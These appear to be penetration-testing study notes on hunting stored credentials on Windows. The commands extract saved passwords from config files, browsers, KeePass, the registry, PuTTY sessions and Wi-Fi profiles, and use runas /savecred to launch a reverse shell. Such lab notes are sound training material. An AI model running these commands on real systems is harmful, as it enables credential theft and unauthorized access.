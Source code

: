 
# Search Application Config Files for Passwords
Many applications store passwords in config files in plain text (bad practice)
```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

# Check Chrome Custom Dictionary for Passwords
Users might save passwords or secrets as custom dictionary entries.
```powershell
Get-Content "C:\Users\<username>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt" | Select-String "password"
```
- Replace `<username>` with the actual Windows user.
- This reads the dictionary file and searches for the word "password".

# Cmdkey Saved Credentials
Windows stores saved usernames and passwords for things like Remote Desktop connections.

```bash
# List saved credentials:
cmdkey /list

# If found any cres then:
# Run a shell here
runas /savecred /user:admin C:\PrivEsc\reverse.exe
# Run a command as a saved user:
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
# Example: Run PowerShell as that user:
runas /savecred /user:inlanefreight\bob "powershell.exe"
```

![[Pasted image 20250828064001.png]]

# Browser Credentials (Chrome)
Users often save passwords in their browsers.

Extract saved Chrome passwords with SharpChrome:

```powershell
.\SharpChrome.exe logins /unprotect
```

This displays usernames and passwords saved in Chrome for the current user.

# Password Managers (KeePass)
Password managers like KeePass store multiple passwords securely but can sometimes be cracked.

Extract KeePass hash from .kdbx file:

```bash
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx
```

Crack the hash with Hashcat (mode 13400 for KeePass):

```bash
hashcat -m 13400 keepass_hash.txt /path/to/rockyou.txt
```

If cracked, you get access to many stored passwords for important systems.

### 4. Searching Emails for Passwords
If you have access to a user's email inbox (Microsoft Exchange), you can search for passwords or credentials.

Example command with MailSniper:

```bash
MailSniper -search "password" -search "credential"
```

### 5. Extracting Credentials with LaZagne
LaZagne can extract stored passwords from many applications.

View help menu:

```powershell
.\lazagne.exe -h
```

Run all modules to extract any saved credentials:

```powershell
.\lazagne.exe all
```

This attempts to find and display cleartext passwords saved by browsers, chat clients, databases, and more.

### 6. Extract Remote Access Credentials with SessionGopher
SessionGopher finds saved login info for remote tools like PuTTY, WinSCP, and RDP.

Import the module in PowerShell:

```powershell
Import-Module .\SessionGopher.ps1
```

Run it against a target host:

```powershell
Invoke-SessionGopher -Target WINLPE-SRV01
```

You’ll get decrypted saved session info like usernames and passwords.

### 7. Cleartext Passwords in Registry - Windows AutoLogon
Windows AutoLogon stores username and password in the registry for automatic login.

Check AutoLogon registry keys:

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

Look for:

AutoAdminLogon (1 means enabled)

DefaultUserName (username)

DefaultPassword (password in cleartext)

Note: Using Autologon.exe from Sysinternals encrypts the password and is safer.

### 8. PuTTY Sessions Stored in Registry
PuTTY saves session info including proxy credentials in the registry.

List saved PuTTY sessions:

```bash
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
```

View specific session details:

```bash
reg query "HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions<SESSION_NAME>"
```

Look for ProxyUsername and ProxyPassword which may be stored in cleartext.

### 9. Wi-Fi Passwords
If you have admin access on a Windows machine with Wi-Fi, you can list saved wireless networks and their passwords.

List saved Wi-Fi profiles:

```bash
netsh wlan show profile
```

Show details and password of a profile:

```bash
netsh wlan show profile <profile-name> key=clear
```

The password will appear under Key Content.

